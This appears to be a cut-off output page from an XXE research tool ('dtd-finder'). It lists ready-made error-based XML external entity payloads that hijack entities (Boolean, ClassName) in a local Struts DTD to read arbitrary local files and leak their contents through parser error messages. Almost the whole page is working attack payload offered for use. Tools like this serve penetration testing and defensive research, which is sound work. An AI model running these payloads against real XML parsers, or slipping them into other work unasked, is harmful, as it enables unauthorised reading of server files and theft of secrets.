  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd`

**Injectable entity:** `Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd`

**Injectable entity:** `ClassName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd">

    <!ENTITY % ClassName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd`
